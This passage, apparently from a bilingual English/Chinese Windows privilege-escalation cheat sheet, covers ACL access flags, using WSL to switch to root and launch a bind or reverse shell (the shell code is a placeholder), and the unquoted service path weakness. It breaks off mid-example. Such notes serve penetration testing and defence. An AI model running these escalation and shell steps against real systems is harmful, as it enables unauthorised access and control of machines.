 ```
BUILTIN\Users:(F)   -  (Full access)
BUILTIN\Users:(M)   -  (Modify access)
BUILTIN\Users:(W)   -   (Write-only access)
```


#### EoP - Windows Subsystem for Linux (WSL)

Windows子系统
```
# ---------------
# With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). 
# 使用root权限的Windows Subsystem for Linux（WSL）允许用户在任何端口上创建bind shell（无需权限提升）

# Don't know the root password? No problem just set the default user to root W/ .exe --default-user root.
# 不知道root的密码也没问题，只需将默认用户设置为root

# Now start your bind shell or reverse.
# 启动bind shell或 reverse shell


wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'


# 二进制bash.exe文件在C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe

# Alternatively you can explore the WSL filesystem in the folder 
# 或者，您可以在文件夹中浏览WSL的文件系统

C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\

```

#### EoP - Unquoted Service Paths

EoP - 不带引号的服务路径
```
# ---------------
# 原理:
# Abusing misconfigured services
# 滥用错误配置的服务

# The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. 
# Microsoft Windows未加引号的服务路径枚举漏洞

# All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.
# 所有Windows服务都有一个可执行文件的路径。如果该路径未加引号并包含空格或其他分隔符，则服务将"首先"尝试访问父路径中的资源。


# 根据Windows处理CreateProcess这个API调用的方式来看，如果某个服务的"二进制文件的路径"没有用引号括起来，并且路径中有空白符号(空格等)或其他分隔符号，可能被用来提权。
# 参考https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa


# 例如 某个服务的二进制文件的路径为 C:\Program Files\sub dir\program name 可见这一路径没有被引号括住并且路径中含有空格 Windows尝试路径的顺序为：

C:\Program.exe
```